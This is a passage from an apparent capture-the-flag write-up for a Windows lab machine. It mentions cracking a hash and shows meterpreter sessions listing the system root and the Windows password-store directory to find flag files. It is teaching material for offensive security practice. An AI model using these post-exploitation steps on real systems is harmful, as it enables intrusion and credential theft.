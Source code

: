 ```
And we successfuly cracked the hash !  


**Copy this password hash to a file and research how to crack it. What is the cracked password ?**  
Answer : *hidden* (Just do it by yourself)

## Find flags
Now let's find the flags !
**Flag1 ? This flag can be found at the system root.**  
By default, the system's root on windows is located in C: , so let's move to this directory and list the files.  
```
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2018-12-13 04:13:36 +0100  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-14 07:08:56 +0200  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-14 05:20:08 +0200  PerfLogs
040555/r-xr-xr-x  4096   dir   2019-03-17 23:22:01 +0100  Program Files
040555/r-xr-xr-x  4096   dir   2019-03-17 23:28:38 +0100  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2019-03-17 23:35:57 +0100  ProgramData
040777/rwxrwxrwx  0      dir   2018-12-13 04:13:22 +0100  Recovery
040777/rwxrwxrwx  4096   dir   2022-07-06 13:38:44 +0200  System Volume Information
040555/r-xr-xr-x  4096   dir   2018-12-13 04:13:28 +0100  Users
040777/rwxrwxrwx  16384  dir   2019-03-17 23:36:30 +0100  Windows
100666/rw-rw-rw-  24     fil   2019-03-17 20:27:21 +0100  flag1.txt
000000/---------  0      fif   1970-01-01 01:00:00 +0100  hiberfil.sys
000000/---------  0      fif   1970-01-01 01:00:00 +0100  pagefile.sys
```
And there is the flag ! Just use ```cat flag1.txt```.

Answer : *hidden* (Just do it by yourself)

**Flag 2 ? This flag can be found at the location where passwords are stored within Windows.**  
I looked where the passwords are stored and I found the answer [here](https://superuser.com/questions/367579/where-are-windows-7-passwords-stored).  
So let's move to ```C:/windows/system32/config``` and then list the files.  
```
meterpreter > ls
Listing: C:\windows\system32\config
===================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100666/rw-rw-rw-  28672     fil   2018-12-13 00:00:40 +0100  BCD-Template
100666/rw-rw-rw-  25600     fil   2018-12-13 00:00:40 +0100  BCD-Template.LOG
100666/rw-rw-rw-  18087936  fil   2022-07-06 13:13:55 +0200  COMPONENTS
100666/rw-rw-rw-  1024      fil   2011-04-12 10:32:10 +0200  COMPONENTS.LOG
...
...
...
100666/rw-rw-rw-  524288    fil   2019-03-17 23:21:22 +0100  SYSTEM{016888cd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2019-03-17 23:21:22 +0100  SYSTEM{016888cd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
040777/rwxrwxrwx  4096      dir   2018-12-13 00:03:05 +0100  TxR
100666/rw-rw-rw-  34        fil   2019-03-17 20:32:48 +0100  flag2.txt
040777/rwxrwxrwx  4096      dir   2010-11-21 03:41:37 +0100  systemprofile
```

```